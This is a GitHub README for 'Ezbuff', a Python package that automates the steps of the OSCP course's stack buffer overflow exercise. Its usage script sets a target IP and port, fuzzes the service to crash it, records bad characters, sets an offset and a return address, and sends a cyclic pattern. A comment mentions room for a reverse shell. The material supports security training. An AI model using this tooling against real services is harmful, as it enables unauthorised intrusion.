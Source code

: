 # Ezbuff
Ezbuff is a Python package created to make the 2020 PWK buffer overflow easier to perform and understand. I created this package because I am aware of the number of people who lose a lot of time during their OSCP exams because of the buffer overflow box and thought this would assist the process. Ezbuff does not perform the buffer overflow for you, it simply automates a lot of the procedures that need to be executed to accomplish a successful buffer overflow attack. Therefore, the manual labor like searching for bad characters, determining the actual number of bytes to send to crash the vulnerable application, and payload generation are all left to the user.

## Installation
```python
pip install ezbuff
```

## Usage
```python
#!/usr/bin/env python3

from ezbuff.src.overflow import Overflow

def main():
	# Instanstantiate `Overflow` object
	test = Overflow("192.168.230.10", 80, max_fuzz_bytes=2000)

	# Change the target IP if running in interactive Python interpreter
	test.targ_ip = "10.10.10.1"

	# Change the target port number if running tests in interactive Python interpreter
	test.targ_port = 443

	# The number of seconds to wait in between the fuzzing process,
	# default = 10
	test.fuzz_interval_seconds = 2

	# Add bad characters to objects list containing bad characters found
	# after sending characters payload.
	test.add_bad_char('\x00', '\x01', '\x02')

	# Set the increment of the fuzzer to be 150 as opposed to
	# the default of 100
	test.fuzz_increment = 150

	# Fuzz the vulnerable application
	test.fuzz()

	# Sets the number of bytes to crash the application.
	# Make sure to accomodate space for reverse shell!!
	test.num_bytes_crash = 1200

	# Set the offset after running the functions to find offset value
	test.offset = 800

	# Set the memory address to jump to after finding valid memory address
	# containing `jump` instructions set in x86 architecture
	test.jump_eip = "\x8f\x35\x4a\x5f"

	# Sending pattern to determine offset
	test.send_pattern()

if __name__ == '__main__':
	main()
```

